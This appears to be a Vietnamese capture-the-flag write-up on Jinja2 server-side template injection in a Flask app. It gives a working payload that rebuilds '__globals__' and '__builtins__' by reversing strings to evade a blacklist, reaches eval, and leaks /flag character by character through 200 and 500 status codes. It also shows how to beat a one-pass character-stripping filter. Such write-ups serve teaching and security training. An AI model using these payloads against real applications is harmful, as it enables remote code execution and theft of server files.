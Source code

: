 ```python
from flask import Flask, render_template_string
app = Flask(__name__)

@app.route('/')
def home():
	picture = """{{ 'abc'|reverse }}"""
	return render_template_string(picture)

if __name__ == '__main__':
    app.run(debug=True)
```

![](https://i.imgur.com/z2SZe3n.png)

Do đó trong payload chúng ta chỉ cần tạo 2 template variable như này là bypass được `BLACK_LIST`. Sau đó tham khảo thêm cheat sheat ta gọi được hàm [eval](https://www.w3schools.com/python/ref_func_eval.asp) để bắt đầu chạy script :

```python
{% set g='__slabolg__'|reverse%}{% set b='__snitliub__'|reverse%}{% set p=t.__init__[g][b]['eval']%}{{p(' s if str([i for i in open("/flag")])[s]=="char" else a',{'s':"index"|length})}}
```

Nói qua một chút về ý tưởng sử dụng `{{p(' s if str([i for i in open("/flag")])[s]=="char" else a',{'s':"index"|length})}}`. `p` đã được gán bằng method `eval`. Expression bên trong eval là:

```python
s if str([i for i in open("/flag")])[s]=="char" else a
```

Expression trên dịch nôm na ra theo tiếng Hooman là như này: mở file `/flag` ra rồi quét hết nội dung của nó (sử dụng [list comprehension](https://www.w3schools.com/python/python_lists_comprehension.asp)) cho vào array rồi convert tất cả thành string, nếu tại index `s` của string này có chứa kí tự `char` thì sẽ trả về biến `s`, server sẽ trả về status code 200, nếu không sẽ trả về biến `a`. Mà biến `a` chưa được khai báo lần nào trong expression này nên khi eval sẽ bị lỗi, server sẽ trả về status code 500. Để biến `s` có thể iterate qua string trên thì tại parameter "globals" của hàm eval chúng ta sẽ gán `s` bằng độ dài của string "index" (sử dụng Filter [length](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.length) để lấy độ dài), và độ dài của string `s` sẽ tăng thêm 1 sau mỗi vòng lặp.

Nếu bạn nghĩ đến đây là có thể build script rồi lấy flag ngon ăn thì nhầm rồi! Payload `{{p(' s if str([i for i in open("/flag")])[s]=="char" else a',{'s':"index"|length})}}` vẫn là chưa hợp lệ, vì trước khi được nạp vào hàm `render_template_string` nó sẽ bị sửa thành `{p(' s if str([i for i in open("/flag")])[s]=="char" else a',{'s':"index"|length})}`, do đó không còn là Jinja Expression và sẽ không chạy được:

```python
if session['username'] == 'admin' and session['check'] == 1:

	picture = picture.replace('{{','{').replace('}}','}').replace('>','').replace('#','').replace('<','')
```

Cách replace các kí tự bị cấm trong biến `picture` thành null này nhìn có vẻ an toàn, nhưng có một lỗ hổng nằm ở đoạn `replace('>','')` và `replace('<','')`. Chúng ta chỉ cần thêm 2 dấu '>' và '<' này vào giữa '{{' và '}}' bypass được luôn, vì nó chỉ replace có 1 lần thôi :D 
